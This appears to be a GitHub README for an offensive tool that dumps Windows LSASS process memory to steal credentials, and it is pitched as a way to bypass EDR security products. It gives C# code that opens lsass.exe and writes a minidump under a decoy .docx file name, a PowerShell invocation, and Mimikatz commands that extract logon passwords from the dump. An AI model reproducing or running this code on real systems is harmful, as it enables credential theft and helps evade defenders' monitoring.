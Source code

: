 # Lsass-Dump-PS
The LsassDumper is a Mimikatz alternative tool used for credential dumping created to bypass EDR products.



# How to Use

* step 1: Edit the script: Chanage the path to the file (file parameter)
```C#
 public static void RunMe(int procId)
        {
            string dumpFileName = "C:\\Users\\Username\\Desktop\\foo.docx";
            FileStream file = new FileStream(dumpFileName, FileMode.Create);
            IntPtr hProcess = OpenProcess((uint)0x001F0FFF, true, procId);
            bool res;
            MINIDUMP_EXCEPTION_INFORMATION info = new MINIDUMP_EXCEPTION_INFORMATION();
            res = MiniDumpWriteDump(hProcess, (uint)procId, file.SafeFileHandle.DangerousGetHandle(), 0002, ref info, IntPtr.Zero, IntPtr.Zero);
            if(res){
                Console.WriteLine("Created By Liav Gutman AKA PT-MasterMind :)");
            
            }else{
                Console.WriteLine("Something went wrong please try again");
            
            
            }
 
```
* step 2: Configre the `lsass.exe` process id.
```
 [GoodMod.Dump]::RunMe(16048)
```
* step 3: Load the dump file (foo.docx) to [Mimikatz](https://github.com/gentilkiwi/mimikatz) and done!
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::minidump liav.docx

mimikatz # sekurlsa::logonpasswords
 
```



